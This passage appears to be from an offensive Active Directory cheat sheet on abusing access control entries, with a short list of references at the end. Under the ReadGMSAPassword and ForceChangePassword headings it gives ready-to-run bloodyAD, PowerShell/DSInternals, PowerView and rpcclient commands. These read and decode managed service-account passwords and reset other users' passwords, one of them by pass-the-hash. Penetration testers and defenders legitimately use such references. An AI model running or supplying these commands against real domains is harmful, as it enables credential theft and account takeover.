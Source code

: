 ## ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to.
* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword
	```
* Windows only:
	```ps1
	# Save the blob to a variable
	$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
	$mp = $gmsa.'msDS-ManagedPassword'

	# Decode the data structure using the DSInternals module
	ConvertFrom-ADManagedPasswordBlob $mp
	```

## ForceChangePassword

An attacker can change the password of the user this ACE applies to:
* Windows/Linux:
	```ps1
	# Using bloodyAD with pass-the-hash
	bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password target_user target_newpwd
	```
* Windows:
	```powershell
	$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
	```
* Linux:
	```ps1
	# Using rpcclient from the  Samba software suite
	rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	```


## References

* [ACE to RCE - @JustinPerdok - July 24, 2020](https://sensepost.com/blog/2020/ace-to-rce/)
* [Access Control Entries (ACEs) - The Hacker Recipes - @_nwodtuhs](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-aces)
* [Escalating privileges with ACLs in Active Directory - April 26, 2018 - Rindert Kramer and Dirk-jan Mollema](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)